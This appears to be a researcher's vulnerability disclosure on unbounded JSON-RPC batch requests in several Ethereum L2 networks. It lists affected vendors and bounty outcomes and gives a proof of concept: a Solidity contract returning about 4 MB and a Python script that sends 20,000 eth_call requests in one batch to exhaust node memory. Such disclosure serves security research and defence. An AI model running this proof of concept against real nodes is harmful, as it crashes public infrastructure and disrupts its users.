 # Misconfiguration of Ethereum RPC Series 2: Unlimited Batch Requests

## Description

A vulnerability exists in the batch request handling of Ethereum-based L2 implementations, where there is no upper limit on the number or size of requests included in a batch. This allows attackers to craft malicious batch requests containing a large volume of memory-intensive operations, resulting in the exhaustion of server resources and potential crashes.

The following code snippet illustrates a typical implementation where all responses are stored in memory before being returned to the client. Similar patterns are observed across multiple RPC implementations:

```go
func (s *Server) handleBatchRequest(httpRequest *http.Request, w http.ResponseWriter, data []byte) int {
    requests, err := s.parseRequests(data)
    if err != nil {
        handleError(w, err)
        return 0
    }

    responses := make([]types.Response, 0, len(requests))

    for _, request := range requests {
        req := handleRequest{Request: request, HttpRequest: httpRequest}
        response := s.handler.Handle(req)
        responses = append(responses, response)
    }

    respBytes, _ := json.Marshal(responses)
    _, err = w.Write(respBytes)
    if err != nil {
        log.Error(err)
        return 0
    }
    return len(respBytes)
}
```

## Exploitation Steps

1. **Attack Contract Crafting**: An attacker deploys a smart contract that returns extremely large data.
2. **Batch Request Construction**: The attacker constructs a batch request to call the smart contract multiple times, and then send the batch request to the RPC client.

## Impact

A single HTTP packet of relatively small size can exhaust all available memory on a node with significant RAM, leading to a node crash.

## Affected Vendors

- **Metis Mainnet**: Reported in <span style="color:blue;">February 2024</span>, but no response was received.  
- **Linea Mainnet**: Reported in <span style="color:blue;">December 2023</span>, but no response was received.  
- **Scroll Mainnet**: Reported in <span style="color:blue;">December 2023</span>, and rewarded me 5K USDC bug bounty which equivalent to <span style="color:red;">medium severity</span>.
- **Boba Network Mainnet**: Reported in <span style="color:blue;">July 2023</span>, and acknowledged as a duplicate report.
- **Polygon zkEVM Mainnet**: Reported in <span style="color:blue;">July 2023</span> and confirmed as <span style="color:red;">medium severity</span>.  

## POC

First, deploy the following smart contract on L2 blockchain.

```solidity
pragma solidity ^0.8.0;

contract LargeDataReturn {
    function getLargeData() public pure returns (bytes memory) {
        uint256 length = 2 ** 22 - 2 * 16;
        assembly {
            return (0, length)
        }
    }
}
```

Next, replace the smart contract address in the following Python script. The Python script creates a batch request containing 20,000 eth_call. This single batch request can cause the L2 node to crash immediately.

```python
import requests
import json
from eth_utils import keccak, to_hex


hash = keccak(text='getLargeData()')
selector = to_hex(hash[:4])
print(selector)


headers = {'content-type': 'application/json'}
url = 'http://127.0.0.1:8546/'


payload = [
    {
        "jsonrpc": "2.0",
        "method": "eth_call",
        "params": [{
            "to": "0xD296F550529E625209EE5D39d26DA7f32D412f3a",
            "data": selector,
        }, "latest"],
        "id": i
    }
    for i in range(20000)
]
payload = json.dumps(payload)

print("Payload length:",len(payload) / (1024 * 1024))

response = requests.post(url, data=payload, headers=headers)

print(len(response.content))
```